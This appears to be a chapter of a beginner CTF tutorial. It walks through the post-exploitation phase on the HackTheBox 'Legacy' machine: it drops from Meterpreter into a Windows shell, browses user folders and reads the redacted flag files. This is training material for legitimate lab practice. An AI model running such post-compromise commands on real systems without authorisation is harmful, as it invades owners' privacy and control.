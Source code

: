 .. _Legacy Capturing Flags:

Capturing Flags
===============

+-------------+--------------------------------+
|**Reference**|:ref:`Metasploit`               |
|             |                                |
|             |:ref:`Meterpreter`              |
|             |                                |
|             |:ref:`Windows Post-Exploitation`|
+-------------+--------------------------------+

.. index::
   single: Meterpreter

Now that we've got access to our target system, let's open a command prompt and see if we can find any juicy information. We'll do this by typing the ``shell`` command, which provides us access to the familiar `Windows` command-line:

.. code-block:: none

    meterpreter > shell
    Process 404 created.
    Channel 1 created.
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>

In most CTF competitions, you'll be hunting for "flags," which are typically short strings contained in text files which are intended to prove that you've successfully completed the challenge. On `HackTheBox`, these flags are typically stored in users' Desktop folders. Let's see which users we can access on this system, using the ``dir`` command. First, we'll get a directory listing of the ``C:\`` drive:

.. code-block:: none

    C:\WINDOWS\system32>dir C:\
    dir C:\
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\

    16/03/2017  07:30                  0 AUTOEXEC.BAT
    16/03/2017  07:30                  0 CONFIG.SYS
    16/03/2017  08:07     <DIR>          Documents and Settings
    16/03/2017  07:33     <DIR>          Program Files
    16/03/2020  12:32     <DIR>          WINDOWS
                   2 File(s)              0 bytes
                   3 Dir(s)   6.473.027.584 bytes free

On this system, user accounts are stored in the ``Documents and Settings`` folder. Let's see what's inside that folder:

.. code-block:: none

    C:\WINDOWS\system32>dir "C:\Documents and Settings\"
    dir "C:\Documents and Settings\"
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\Documents and Settings

    16/03/2017  08:07     <DIR>          .
    16/03/2017  08:07     <DIR>          ..
    16/03/2017  08:07     <DIR>          Administrator
    16/03/2017  07:29     <DIR>          All Users
    16/03/2017  07:33     <DIR>          john
                   0 File(s)              0 bytes
                   5 Dir(s)   6.473.027.584 bytes free

Notice that I surround the directory path in quotes; this is because there are spaces in the folder name. Without the quotes, `Windows` would think I was asking for a listing of the ``C:\Documents`` folder, which doesn't exist.

There appear to be two users on this system: ``Administrator`` and ``john``. Let's see what's on John's desktop:

.. code-block:: none

    C:\WINDOWS\system32>dir "C:\Documents and Settings\john\Desktop"
    dir "C:\Documents and Settings\john\Desktop"
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\Documents and Settings\john\Desktop

    16/03/2017  08:19     <DIR>          .
    16/03/2017  08:19     <DIR>          ..
    16/03/2017  08:19                 32 user.txt
                   1 File(s)             32 bytes
                   2 Dir(s)   6.473.027.584 bytes free

Aha! There's a ``user.txt`` file. Let's see what's inside. To do this, we'll use the ``type`` command, which prints out the contents of the file:

.. code-block:: none

    C:\WINDOWS\system32>type "C:\Documents and Settings\john\Desktop\user.txt"
    type "C:\Documents and Settings\john\Desktop\user.txt"
    {{{user flag redacted}}}

Bingo! There's our first flag! We can now submit it in the `HackTheBox` page for `Legacy` to claim the User flag. Next, let's see what's on the ``Administrator`` account's desktop:

.. code-block:: none

    C:\WINDOWS\system32>dir "C:\Documents and Settings\Administrator\Desktop"
    dir "C:\Documents and Settings\Administrator\Desktop"
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B

     Directory of C:\Documents and Settings\Administrator\Desktop

    16/03/2017  08:18     <DIR>          .
    16/03/2017  08:18     <DIR>          ..
    16/03/2017  08:18                 32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)   6.473.027.584 bytes free

We've found a ``root.txt`` file! This will typically contain the "root" flag, which proves we've gained admin access to the target system. Let's see what's inside, once again using the ``type`` command:

.. code-block:: none

    C:\WINDOWS\system32>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
    type "C:\Documents and Settings\Administrator\Desktop\root.txt"
    {{{root flag redacted}}}

Excellent! We've now obtained the "root" flag, and can claim it on `HackTheBox`. At this point, we've successfully completed this CTF system! We can now disconnect from the box using the ``exit`` command twice, once to leave the `Windows` command terminal, and again to exit `Meterpreter`.

.. note::

    At the end of a pentest, it's important to :ref:`cover your tracks`. By typing ``exit`` twice, we quit the command shell as well as the `Meterpreter` session, disconnecting from the machine, without taking the time to clean up after ourselves. This is typically considered bad form, as it could leave backdoors or exploits running on the target. In this case, however, the only exploit we uploaded to the system was `Meterpreter`, and if you take a second look at Figure 9, you'll see that `Meterpreter` automatically deleted the uploaded executable file before giving us a command prompt. Therefore, clean-up wasn't really necessary.

Congratulations! You've successfully completed your first `HackTheBox` CTF challenge, and gained some valuable experience in the process. Feel free to continue reading through the rest of the chapters in order, or skip ahead to the :ref:`walkthroughs` section to see walk-throughs of other machines!
